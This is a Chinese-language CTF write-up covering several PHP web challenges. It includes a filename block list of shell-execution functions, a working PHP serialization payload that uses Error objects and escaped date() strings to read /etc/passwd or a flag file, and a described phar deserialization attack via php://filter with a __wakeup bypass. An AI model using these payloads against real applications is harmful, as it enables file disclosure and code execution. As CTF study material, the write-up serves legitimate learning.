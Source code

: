 ![image-20230620154127748](C:\Users\28595\AppData\Roaming\Typora\typora-user-images\image-20230620154127748.png)

app.py: 这里不列全部了，列举修的部分：

```
if re.match("/openlog|syslog|readlink|symlink|popepassthru|stream_socket_server|scandir|assert|pcntl_exec|fwrite|curl|system|eval|assert|flag|passthru|exec|chroot|chgrp|chown|shell_exec|proc_open|proc_get_status|popen|ini_alter|ini_restore/i", file.filename) == None :
        flag = 1
        print("有war，不要乱玩")
    if flag == 1:
        return "有war，不要乱玩"
```

### easy_date

![image-20230620190632140](C:\Users\28595\AppData\Roaming\Typora\typora-user-images\image-20230620190632140.png)

Exception内置异常类的特性绕过

```
<?php
echo date("/\\e\\t\\c/\\p\\a\\s\\s\\w\\d");
//执行结果为 /etc/passwd
```

payload:

```
<?php
class date{
    public $a;
    public $b;
    public $file;
}

$a = new Error("payload",1);$b = new Error("payload",2); //要在一行
$adate=new date();
$adate->a=$a;
$adate->b=$b;
// $adate->file = "/\\e\\t\\c\\/p\\a\\s\\s\\w\\d";
$adate->file="/f\l\a\g.\\tx\\t";
$poc = base64_encode(serialize($adate));
echo $poc;
```

积累：通过内置异常类绕过两个非数组且值不相同md5值和sha1相同

### filechecker

- 正则匹配没有过滤php://filter，因此可以用php://filter打phar反序列化

- 题目用了mime_content_type函数，该函数参数完全可控，可以触发phar反序列化

  这个phar反序列化中有wakeup函数需要绕过，但是他那是经过phar产生的二进制文件，所以需要借助010去修改，修改后还需要更新签名
